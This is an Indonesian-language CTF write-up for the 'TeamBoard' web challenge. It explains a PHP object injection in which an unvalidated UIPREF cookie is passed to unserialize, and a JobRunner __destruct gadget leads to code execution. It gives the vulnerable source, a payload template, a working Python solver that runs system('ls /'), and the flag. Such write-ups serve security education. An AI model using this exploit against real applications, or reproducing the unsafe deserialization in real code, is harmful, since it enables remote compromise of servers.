 ## TeamBoard

**Difficulty:** Medium

**Author:** moonetics

**URL:** [http://ctf.noctralupra.space:10311](http://ctf.noctralupra.space:10311) 

### Description
Tim IT kami baru saja merilis Teamboard, aplikasi internal untuk kolaborasi proyek dan sprint (login, dashboard, pengaturan preferensi, serta fitur admin sederhana seperti ekspor/impor). Versi ini masih tahap staging dan kami butuh bantuanmu untuk melakukan security review dan menemukan potensi bug/kerentanan web.

### Solution

Struktur web terdiri dari :
- `index.php` yang memuat `bootstrap.php` terlebih dahulu, kemudian routing berdasarkan method dan path
- Terdapat beberapa routes yang menarik: `/dashboard`, `/settings`, `/admin/export`, `/admin/import`

```php
<?php
spl_autoload_register(function($class){
  $prefix = 'App\\';
  $base = __DIR__ . '/';
  if (strncmp($prefix, $class, strlen($prefix)) !== 0) return;
  $rel = substr($class, strlen($prefix));
  $file = $base . str_replace('\\','/',$rel) . '.php';
  if (file_exists($file)) require $file;
});

ini_set('display_errors', 1);
error_reporting(E_ALL);

require __DIR__ . '/Core/helpers.php';
require __DIR__ . '/Core/Security.php';

App\Core\Middleware\UiPrefs::bootstrap();

session_start();
```

Pada `bootstrap.php`:
1. Autoloader diinisiasi
2. `helpers.php` dan `security.php` dimuat
3. `App\Core\Middleware\UiPrefs::bootstrap()` dipanggil sebelum `session_start()` dan eksekusi controller/route

```php
class Serializer {
  public static function pack($obj) { return base64_encode(gzdeflate(serialize($obj))); }
  public static function unpack($str) {
    if (!$str) return null;
    $raw = base64_decode($str, true);
    if ($raw === false) return null;
    $inflated = @gzinflate($raw);
    if ($inflated === false) return null;
    return @unserialize($inflated);
  }
}
```

Di helpers.php terdapat **App\Core\Serializer::unpack()**, yang melakukan operasi base64 decode lalu di-gzinflate kemudian di-unserialize:

```php
namespace App\Core\Middleware;
use App\Core\Serializer;
use App\Models\UiPreferences;

class UiPrefs {
  public static $prefs;
  public static function bootstrap() {
    if (isset($_COOKIE['UIPREF'])) {
      $obj = Serializer::unpack($_COOKIE['UIPREF']);
      if ($obj instanceof UiPreferences) {
        self::$prefs = $obj;
      } else {
        self::$prefs = new UiPreferences();
      }
    } else {
      self::$prefs = new UiPreferences();
    }
  }
}
```

**App\Core\Middleware\UiPrefs::bootstrap()** membaca `UIPREF` cookie dan secara langsung memanggil `Serializer::unpack($_COOKIE['UIPREF'])` tanpa validasi dan verifikasi yang aman. Dengan begitu, penggunaan `unserialize()` pada data UIPREF cookie yang hanya diproses melalui `base64_decode` dan `gzinflate` menjadi vuln yang ditargetkan.

```php
<?php
namespace App\Jobs;
class JobRunner {
  public $handler; public $payload; public $autoRun = true;
  public function __construct($handler = null, $payload = null){ $this->handler=$handler; $this->payload=$payload; }
  public function __destruct(){
    if ($this->autoRun && is_callable($this->handler)) { @call_user_func($this->handler, $this->payload); }
  }
}
```

**App\Jobs\JobRunner** (JobRunner.php):
- Mengandung `__destruct()` method yang mengeksekusi `@call_user_func($this->handler, $this->payload)` ketika `$autoRun === true`
- Perfect gadget for PHP Object Injection: Dengan membuat serialized JobRunner object yang mengandung `handler` dan `payload` properties, arbitrary functions tereksekusi ketika request berakhir (destructor dipanggil). Dengan `JobRunner::__destruct()` kemudian `call_user_func`, menggunakan handlers seperti `readfile`, `printf`, `system`, dapat dilakukan RCE.

Untuk alur exploitnya adalah seperti berikut:
1. **Build serialized PHP string:** `O:18:"App\Jobs\JobRunner":3:{s:7:"handler";s:N:"<callable>";s:7:"payload";s:M:"<arg>";s:7:"autoRun";b:1;}`
2. **Pack like server:**
   - Raw DEFLATE
   - Base64-encode the deflate result
3. **Set as UIPREF cookie**
4. **Access any endpoint** and read output at beginning of response

Dengan begitu, saya bisa membuat token UIPREF dengan solver berikut ini:

```python
import base64, zlib

HANDLER = "system"
PAYLOAD = "ls /"

def pack(s: str) -> str:
    co = zlib.compressobj(level=9, wbits=-15)
    comp = co.compress(s.encode("utf-8")) + co.flush()
    return base64.b64encode(comp).decode("ascii")

ser = (f'O:18:"App\Jobs\JobRunner":3:'
       f'{{s:7:"handler";s:{len(HANDLER)}:"{HANDLER}";'
       f's:7:"payload";s:{len(PAYLOAD)}:"{PAYLOAD}";'
       f's:7:"autoRun";b:1;}}')
uipref = pack(ser)
print(uipref)
```

![alt text](image.png)

Setelah nilai UIPREF diganti dengan hasil generate solver maka web akan meresponse dengan output dari payload RCE yang dimasukkan.

### Flag

NCLPS1{t3amb04rD_u1pr3f_oBj3ct_inj3ct1on_s3r1AlizE_dEFlat3_b4se64_7516d8bc52}